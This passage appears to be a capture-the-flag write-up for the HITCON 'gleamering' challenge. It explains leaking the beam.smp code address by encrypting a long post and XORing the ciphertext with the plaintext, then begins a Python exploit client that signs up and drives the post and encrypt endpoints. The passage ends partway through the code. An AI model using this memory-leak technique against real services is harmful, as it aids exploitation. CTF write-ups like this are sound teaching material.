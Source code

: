 
First, we use the initial bug to leak the address where the code (beam.smp) is located and a writable address.


We can leak the memory content by creating a long post, encrypting it, and XORing the result with the plaintext. Then, we search the leaked memory content for the address where the code is located.


```python
import requests
import re
import base64

BASE_URL = "http://localhost:8001"
# BASE_URL = "http://gleamering.chal.hitconctf.com:30676"
BASE_URL = 'http://gleamering.chal.hitconctf.com:30676'
class Conn:
    def __init__(self):
        self.estimate_post_id= None
        pass

    def signup(self, user_id: int):
        session = requests.Session()
        url = f"{BASE_URL}/signup"
        data = {
            "user": "ellie",
            "pass": "ellie",
            "id": user_id
        }
        response = session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to signup")
        self.session = session

    def post(self, content: str) -> int:
        url = f"{BASE_URL}/posts"
        data = {
            "content": content
        }
        response = self.session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to post message")
        text = response.text
        return int(re.findall(r'hx-get="/posts/(\d+)"', text)[0])
    
    def try_encrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def try_decrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def get_encrypted_post(self, post_id) -> str:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.get(url)
        if response.status_code != 200:
            raise Exception("Failed to get encrypted post")
        text = response.text
```